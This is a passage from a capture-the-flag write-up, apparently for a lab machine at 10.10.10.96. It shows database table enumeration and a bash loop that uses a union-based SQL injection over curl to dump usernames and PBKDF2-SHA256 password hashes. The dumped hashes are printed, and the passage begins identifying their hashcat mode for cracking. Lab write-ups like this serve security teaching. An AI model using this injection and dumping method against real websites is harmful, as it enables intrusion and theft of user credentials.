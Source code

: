 ```
    file_summary_by_event_name
    file_summary_by_instance
    mutex_instances
    performance_timers
    rwlock_instances
    setup_consumers
    setup_instruments
    setup_timers
    threads

```

Since ozdb jumps out as most interesting, I’ll check out the columns for those tables:

```

root@kali# cat db_dump/ozdb-tickets_gbw.columns 
ozdb:tickets_gbw:id
ozdb:tickets_gbw:name
ozdb:tickets_gbw:desc
root@kali# cat db_dump/ozdb-users_gbw.columns 
ozdb:users_gbw:id
ozdb:users_gbw:username
ozdb:users_gbw:password

```

#### users Table

The users table looks particularly interesting, and I can write a bash loop to dump it out:

```

root@kali# for i in $(seq 0 10); do curl -s "http://10.10.10.96/users/'%20union%20select%20concat(id,':',username,':',password)%20from%20ozdb.users_gbw%20LIMIT%201%20OFFSET%20${i};--%20-" | jq -r .username; done
1:dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
2:tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
3:wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
4:coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
5:toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
6:admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
null
null
null
null
null

```

#### Crack the Hashes

Those hashes are not immediately an obvious match on my [typical cheat sheet for hashes](https://hashcat.net/wiki/doku.php?id=example_hashes). They look kind of like Django (id 10000), but aren’t a perfect match. They also look kind of like PBKDF2-HMAC-SHA256 (id 10900).
